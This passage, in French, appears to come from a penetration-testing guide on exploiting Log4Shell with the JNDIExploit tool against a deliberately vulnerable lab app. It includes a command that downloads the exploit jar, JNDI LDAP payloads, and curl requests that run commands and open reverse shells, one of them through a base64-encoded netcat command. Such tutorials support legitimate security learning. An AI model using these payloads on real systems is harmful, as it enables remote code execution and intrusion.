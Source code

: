 Déclenchez l'exécution de la classe d'exploitation sur le serveur web vulnérable en envoyant une charge utile ressemblant à :
```bash
${jndi:ldap://<LDAP_IP>:1389/Exploit}
```
**Remarque :** Cette exploitation repose sur la configuration de Java pour permettre le chargement de code à distance via LDAP. Si cela n'est pas permis, envisagez d'exploiter une classe de confiance pour l'exécution de code arbitraire.

### RCE - **JNDIExploit**

> [!NOTE]
> Notez que pour une raison quelconque, l'auteur a retiré ce projet de github après la découverte de log4shell. Vous pouvez trouver une version mise en cache sur [https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) mais si vous souhaitez respecter la décision de l'auteur, utilisez une méthode différente pour exploiter cette vulnérabilité.
>
> De plus, vous ne pouvez pas trouver le code source dans wayback machine, donc soit analysez le code source, soit exécutez le jar en sachant que vous ne savez pas ce que vous exécutez.

Pour cet exemple, vous pouvez simplement exécuter ce **serveur web vulnérable à log4shell** sur le port 8080 : [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) (_dans le README, vous trouverez comment l'exécuter_). Cette application vulnérable enregistre avec une version vulnérable de log4shell le contenu de l'en-tête de requête HTTP _X-Api-Version_.

Ensuite, vous pouvez télécharger le fichier jar **JNDIExploit** et l'exécuter avec :
```bash
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888 # Use your private IP address and a port where the victim will be able to access
```
Après avoir lu le code pendant quelques minutes, dans _com.feihong.ldap.LdapServer_ et _com.feihong.ldap.HTTPServer_, vous pouvez voir comment les **serveurs LDAP et HTTP sont créés**. Le serveur LDAP comprendra quel payload doit être servi et redirigera la victime vers le serveur HTTP, qui servira l'exploit.\
Dans _com.feihong.ldap.gadgets_, vous pouvez trouver **certains gadgets spécifiques** qui peuvent être utilisés pour exécuter l'action souhaitée (potentiellement exécuter du code arbitraire). Et dans _com.feihong.ldap.template_, vous pouvez voir les différentes classes de modèles qui **généreront les exploits**.

Vous pouvez voir tous les exploits disponibles avec **`java -jar JNDIExploit-1.2-SNAPSHOT.jar -u`**. Certains utiles sont :
```bash
ldap://null:1389/Basic/Dnslog/[domain]
ldap://null:1389/Basic/Command/Base64/[base64_encoded_cmd]
ldap://null:1389/Basic/ReverseShell/[ip]/[port]
# But there are a lot more
```
Donc, dans notre exemple, nous avons déjà cette application docker vulnérable en cours d'exécution. Pour l'attaquer :
```bash
# Create a file inside of th vulnerable host:
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

# Get a reverse shell (only unix)
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/ReverseShell/172.17.0.1/4444}'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMSA0NDQ0IC1lIC9iaW4vc2gK}'
```
Lorsque vous envoyez les attaques, vous verrez une sortie dans le terminal où vous avez exécuté **JNDIExploit-1.2-SNAPSHOT.jar**.